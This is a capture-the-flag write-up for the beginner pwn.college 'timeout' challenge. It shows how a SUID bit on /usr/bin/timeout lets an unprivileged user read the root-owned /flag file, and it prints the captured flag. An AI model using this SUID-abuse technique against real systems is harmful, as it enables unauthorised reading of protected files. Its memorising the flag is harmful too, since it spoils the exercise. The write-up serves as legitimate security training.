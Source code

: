 # Challenge Name: timeout
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/timeout`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/timeout
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/timeout
```

-The `s` in `-rws` indicates it's a SUID binary.
-`timeout` runs with **root privileges**.

## 🚀 Exploitation

The `timeout` command in Linux is used to run another command with a time limit. If the command runs longer than the specified time, timeout will terminate it automatically.


```bash
timeout 0.5 cat /flag
```

Output:
```
pwn.college{MFU1eR7KxcZ2LfT0Uxiy-ybYB9g.dBzNxwSM0IzMyEzW}
```

      

